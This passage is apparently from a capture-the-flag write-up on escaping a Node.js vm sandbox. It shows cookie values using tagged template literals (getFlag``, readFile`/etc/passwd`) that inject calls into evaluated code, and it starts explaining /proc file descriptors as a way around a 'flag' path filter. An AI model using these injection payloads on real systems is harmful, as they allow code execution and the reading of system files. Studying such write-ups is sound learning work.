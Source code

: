 It would be perfect if we could call to `readFile` and get the flag, but there is a check that doesn't allow us to get the content of any file containing `flag` in its path.

### Calling a function

Because we can't use an opening parentheses, we need to call functions by using [tagged template literal](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals).
Basically, it's possible to call functions like this:

```javascript
console.log`1`
getFlag``
readFile`/etc/passwd`
```

So we can set out `order` cookie to ``` order=getFlag`` ```:

```javascript
// cookie: order=getFlag``
result = new String(vm.run(`sum([${req.userOrder}])`))
result = new String(vm.run(`sum([getFlag``])`))
```

And it prints out the `secretMessage`, which is [`padoru padoru`](https://www.youtube.com/watch?v=fvO2NFDIEgk).  
But we aren't interested in Anime, so we need to find a way to get the flag.  

### Getting the flag from the sandbox

Notice we can read every file the `app` user has permissions to read, as long as it doesn't contain `flag` in it's path.  
For example, we can read `/etc/passwd`

```javascript
// cookie: order=readFile`/etc/passwd`
result = new String(vm.run(`sum([${req.userOrder}])`))
result = new String(vm.run('sum([readFile`/etc/passwd`])'))
```

Is there a way to reference the `/flag.txt` file without explicitly using it's name?

Yes there is! To understand how, you first need to be familiar with these two concepts: [The /proc Filesystem](https://www.kernel.org/doc/html/latest/filesystems/proc.html#process-specific-subdirectories) and [File Descriptors](https://en.wikipedia.org/wiki/File_descriptor)

Basically, the `/proc` filesystem is a directory containing information about running processes (and some other stuff, not relevant for now).  
File descriptors are unique integer IDs, specific for each process, that help the kernel diffrentiate between open files (and some other stuff, not relevant for now).  
A file descriptor is created when a file is opened, **AND DELETED WHEN THE FILE IS EXPLICITLY CLOSED**. This would be important later.  

Inside the `/proc` filesystem there is a folder for each PID, in which you can find another folder titled `fd`, that contains all the file descriptors that exist at the moment for the process.

Try it for yourselves, open a linux machine and execute:
```bash
ls -al /proc/1/fd
```
You can now see all the file descriptors that exist for the process with the PID 1.  
Notice that the in the `/proc` filesystem, those file descriptors are links to the original files.  
So reading `/proc/1/fd/3` will actually read the file that the file descriptor 3 in the process with the PID 1 is associated with.  
